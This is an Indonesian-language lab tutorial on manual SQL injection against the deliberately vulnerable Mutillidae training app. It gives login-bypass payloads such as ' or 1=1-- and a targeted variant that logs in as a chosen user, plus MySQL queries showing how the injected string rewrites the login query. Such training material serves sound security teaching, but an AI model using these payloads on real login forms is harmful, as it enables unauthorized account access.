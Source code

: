 # Lesson 5: Manual SQL Injection with Firebug
```
_____  _____ _       _____      _           _   _             
/  ___||  _  | |     |_   _|    (_)         | | (_)            
\ `--. | | | | |       | | _ __  _  ___  ___| |_ _  ___  _ __  
`--. \| | | | |       | || '_ \| |/ _ \/ __| __| |/ _ \| '_ \
/\__/ /\ \/' / |____  _| || | | | |  __/ (__| |_| | (_) | | | |
\____/  \_/\_\_____/  \___/_| |_| |\___|\___|\__|_|\___/|_| |_|
                              _/ |                            
                             |__/                             
```
## SQL Injection: Single Quote Test On Username Field

1. Buka Mutillidae pada firefox, lalu masuk ke halaman ```Login/Register```
![1](/lesson5/2.png)

2. Disitu kita akan melihat sebuah form login yang dapat diisi namun kita tidak mengetahui akun untuk autentikasinya. ketikkan ```'``` pada kolom "Name". Lalu klik "Login"
![1](/lesson5/3.png)

3. Perhatikan pesan error yang muncul dibagian atas. pesan itu menandakan bahwa fitur autentikasi tersebut rentan terhadap serangan SQL Injection
![1](/lesson5/x.png)

## SQL Injection: By-Pass Password Without Username (Obtain Access #1)

1. Masukkan string yang akan mengacaukan query seperti ```' or 1=1-- ```
**Penting: tambahkan spasi setelah sintaks comment jadi seperti ini ```'-- '```**
![1](/lesson5/6.png)

2. Maka kita akan berhasil login dengan akun admin. bagaimana bisa? string ```' or 1=1-- ``` akan menjadikan eksekusi query yang dasarnya adalah
```
select * from accounts where username='' and password=''
```
menjadi
```
select * from accounts where username='' or 1=1-- ' and password=''
```
query tersebut menghasilkan nilai true, dan mengambil user yang berada di paling atas pada tabel "accounts"

## SQL Injection: Single Quote Test On Password Field

1. Masukkan username dan lakukan inspect element pada kolom password lalu ubahlah ```type``` input dari ```password``` menjadi ```text```. lalu lakukanlah cek kerentanan dengan memasukkan string ```'``` lalu klik login untuk mengeksekusi querynya.
![1](/lesson5/8.png)

2. Setelah itu akan muncul error yang menandakan bahwa fitur autentikasi ini rentan terhadap serangan SQL Injection.
![1](/lesson5/9.png)

## SQL Injection: Single Quote Test On Password Field (Obtain Access #2)

1. Masukkan username dan lakukan inspect element pada kolom password lalu ubahlah value pada ```type``` menjadi ```text```, ```maxlength``` menjadi ```50``` dan ```size``` menjadi ```50```. setelah itu masukkan string ```' or (1=1 and username='samurai')-- ```
**Jangan lupa untuk menambahkan spasi setelah "-- "**
![1](/lesson5/11.png)

2. Setelah itu kita akan masuk dengan nama user "samurai" (sesuai dengan yang diinputkan tadi)
![1](/lesson5/12.png)

## Database Practice

1. masuk ke server mutillidae dan buka mysql dengan user root. dengan cara mengetikkan perintah
```
mysql -u root
```
![1](/lesson5/13.png)

2. tampilkan seluruh database dengan mengetikkan
```
show databases;
```
lalu pilih database yang digunakan oleh muttilidae (dalam kasus ini menggunakan database dengan nama owasp10) dengan mengetikkan
```
use owasp10;
```
![1](/lesson5/15.png)

3. Tampilkan seluruh tabel pada database dengan cara mengetikkan
```
show tables;
```
![1](/lesson5/16.png)

4. Tampilkan deskripsi dari tabel "accounts" dengan cara mengetikkan
```
desc accounts;
```
![1](/lesson5/17.png)

5. Tampilkan seluruh data pada tabel "accounts" dengan cara mengetikkan
```
select * from accounts;
```
![1](/lesson5/18.png)

6. Tampilkan seluruh data pada tabel "accounts" yang mempunyai username = '' dan password = '' dengan cara mengetikkan
```
select * from accounts where username='' and password='';
```
![1](/lesson5/19.png)

7. Tampilkan seluruh data pada tabel "accounts" yang mempunyai username = 'samurai' dan password = 'samurai' dengan cara mengetikkan
```
select * from accounts where username='samurai' and password='samurai';
```
![1](/lesson5/20.png)

8. Tampilkan seluruh data pada tabel "accounts" yang mempunyai username = 'samurai' dan password = 'wrongpassword' dengan cara mengetikkan
```
select * from accounts where username='samurai' and password='wrongpassword';
```
![1](/lesson5/21.png)

9. Tampilkan seluruh data pada tabel "accounts" yang mempunyai username = 'samurai'. dengan memberikan *end syntax* ```;``` *comment* ```-- ``` setelah ```username='samurai'```sehingga menjadi seperti ini:
```
select * from accounts where username='samurai';-- and password='wrongpassword';
```
![1](/lesson5/22.png)
dengan ini syntax setelah ```username='samurai'``` tidak akan dibaca/dieksekusi.

10. Coba lakukan query seperti pada login form dengan mengetikkan ```'``` didalam username untuk merusak query.
```
> select * from accounts where username=''' and password='';
> ;
```
![1](/lesson5/24.png)

11. lakukan query agar query tersebut selalu mengembalikan nilai ```True``` dengan cara menambahkan ```'or 1=1;-- ``` didalam string username
```
select * from accounts where username=''or 1=1;-- ' and password='';
```
![1](/lesson5/25.png)

12. lakukan query sql injection untuk mencari user dengan username "samurai" dengan cara
```
select * from accounts where username='samurai' and password='' or (1=1 and username='samurai');--';
```
![1](/lesson5/27.png)
